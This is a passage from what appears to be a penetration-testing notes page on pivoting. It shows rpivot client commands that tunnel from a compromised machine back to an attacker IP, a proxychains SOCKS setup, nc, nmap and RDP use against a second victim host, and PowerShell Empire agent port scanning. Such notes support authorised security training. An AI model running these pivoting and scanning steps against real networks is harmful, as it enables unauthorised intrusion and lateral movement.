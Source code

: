 Check if in the target machine there is python2 installed and run the connection to the server.

```bash
# target machine
python --version # check python version

# conect to the rpivot server
python client.py --server-ip $ATT_IP --server-port $SERVER_PORT
```

When the connection has been initialized, we have to add this configuration to proxychain conf file.

```bash
nano /etc/proxychains.conf

# add follow line in the bottom
socks4 127.0.0.1 $PROXY_PORT
```

Now using `proxychains` we can access to all port of all other network machines.

```bash
# this command to create a port fordward which allow us to see a web page
proxychains nc -nv $VICTIM2_IP $PORT_TO_FORWARD_ON_VICTIM2

# use nmap through the pivoting
proxychains nmap -sT $VICTIM2_IP

# this command allow us to access via RDP to other machine in other network
proxychains rdesktop $VICTIM2_IP
```

***



## Pivoting PortScan with Empire

we are in a windows machine and we have to run portscanning in other machine via pivoting.

Follow this guide to start empire and connect windows target to it.

{% content-ref url="../../../tools/tools/powershell/powershell-empire-fundamentals.md" %}
[powershell-empire-fundamentals.md](../../../tools/tools/powershell/powershell-empire-fundamentals.md)
{% endcontent-ref %}

Interact with the target with this command:

```bash
interact NAME # get the name from agents empire table
```

Use and set the portscan empire module:

```bash
usemodule powershell/situational_awareness/portscan
set Hosts TARGET2_IP
execute
```
